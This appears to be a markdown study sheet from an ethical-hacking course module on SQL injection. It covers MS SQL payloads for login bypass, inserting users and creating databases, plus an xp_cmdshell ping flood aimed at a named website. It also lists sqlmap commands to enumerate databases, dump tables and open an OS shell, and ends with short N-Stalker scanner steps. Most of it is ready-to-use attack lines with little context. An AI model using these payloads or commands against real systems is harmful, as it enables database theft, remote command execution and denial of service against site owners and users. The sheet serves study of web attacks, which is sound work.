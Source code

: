 # Module 15 - SQL Injection #

## SQL Injection on an MS SQL Database ##

``` blah' or 1=1 -- - ```

``` blah'; insert into login values('john','apple123'); -- - ``` - Inserting a new user into the table 'login'

``` blah'; create database mydatabase; -- - ``` - Creating a new database

``` blah'; exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- - ``` - To perform a DoS to a site


### SQLMap ###
``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> --dbs ``` - It tampers with the parameters in the URL to attempt to extract database information

``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> -D <Database Name> ``` - It displays info about the specific database

``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> -D <Database Name> -T <Table> --columns ``` - It displays the columns of the specified table

``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> -D <Database Name> -T <Table> --dump ``` - It dumps all the info about the specified table

``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> --os-shell ``` - To execute an os shell


- - - -

## Scanning Web Applications ##

### N-Stalker ###
1. Enter the URL and the 'OWASP Policy' Scan Policy. Leave everything else to default.
2. 'Start Scan'

It shows the website tree, the vulnerabilities found, objects, stats...
